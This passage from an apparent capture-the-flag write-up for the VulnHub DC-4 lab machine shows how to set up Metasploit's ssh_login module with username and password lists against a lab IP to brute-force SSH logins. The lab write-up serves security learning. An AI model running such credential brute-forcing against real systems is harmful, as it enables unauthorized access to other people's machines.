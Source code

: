 
`scanner/ssh/ssh_login` prompt should be active now and we can start editing the auxiliary module's options.

To see the current options, run `options`. To set the needed options, run the following:  
1. `set USER_FILE <users.txt>` - username file we created earlier  
1. `set PASS_FILE <pw.txt>` - password file we extracted earlier  
1. `set RHOST 192.168.0.151` - remote host we're attacking.. DC-4's IP  
1. `set VERBOSE True` - enables feedback on failed and successful login attempts  
1. `options` - review what is set and compare to below  

![msfconsole - options set and ready](/images/CTF/VulnHub/DC-Series/DC-4/msfconsole-options-set.png "msfconsole - options set and ready")


With the `ssh_login` module ready, enter `run` into the terminal and watch it slowly automate our ssh logins!

![msfconsole - ssh login success](/images/CTF/VulnHub/DC-Series/DC-4/msfconsole-ssh-success.png "msfconsole - ssh login success")
